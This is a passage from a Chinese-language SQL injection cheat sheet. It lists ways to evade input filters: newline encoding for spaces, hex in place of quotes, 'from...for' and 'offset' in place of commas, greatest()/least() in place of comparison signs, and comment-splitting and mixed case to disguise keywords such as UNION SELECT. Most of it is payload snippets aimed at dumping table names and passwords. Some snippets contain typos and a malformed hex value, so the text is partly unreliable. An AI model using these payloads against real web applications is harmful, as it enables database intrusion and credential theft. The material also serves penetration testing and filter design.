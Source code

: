 - %0a代替空格，最常用

```
%0a
```



### 引号绕过

```
十六进制绕过
select group_concat(table_name) from information_schema.tables where table_schema='security';

select group_concat(table_name) from information_schema.tables where table_schema=2773656375726974792720
```



### 逗号绕过

```
from for绕过
select substr(database(),1,1);
select substr(database() from 1 for 1);
offset绕过
select * from users limit 0,1;
select * from users limit 0 offset 1;
```



### <>绕过

绕过比较符号`<` `>`,使用函数greatest()、least()，greatest()返回最大值，least()返回最小值

```
select * from usrs where id=1 and ascii(substr(database(),0,1))>64;
select * from usrs where id=1 and greatest(ascii(substr(database(),0,1)),64)=64;
```



### 关键词绕过

- 注释符绕过

```
常用注释符
//，-- , /**/, #, --+, -- -, ;,%00,--a
用法：
sel/**/ect * from users un/**/ion select passwd from emils wh/**/ere limit 0,1;
```



- 大小写绕过

```
select * from users UnIon select passwd from emils WheRe limit 0,1;
```
